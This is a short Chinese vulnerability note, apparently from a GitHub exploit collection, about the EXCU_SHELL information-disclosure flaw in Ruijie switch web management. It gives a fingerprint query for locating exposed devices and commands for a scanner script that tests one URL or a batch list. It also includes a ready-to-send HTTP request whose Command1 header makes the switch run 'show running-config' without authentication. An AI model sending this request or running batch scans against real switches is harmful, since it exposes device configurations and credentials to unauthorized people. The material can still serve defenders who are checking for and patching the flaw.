


# 锐捷交换机 WEB 管理系统 EXCU_SHELL 信息泄露

锐捷交换机 WEB 管理系统 EXCU_SHELL信息泄露

## 指纹

body="img/free_login_ge.gif" && body="./img/login_bg.gif"

## 工具利用

python3 EXCU_SHELL_scan.py -u http://127.0.0.1:1111 单个url测试

python3 EXCU_SHELL_scan.py -f url.txt 批量检测



```
GET /EXCU_SHELL HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.2852.74 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cmdnum: '1'
Command1: show running-config
Confirm1: n

```



## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
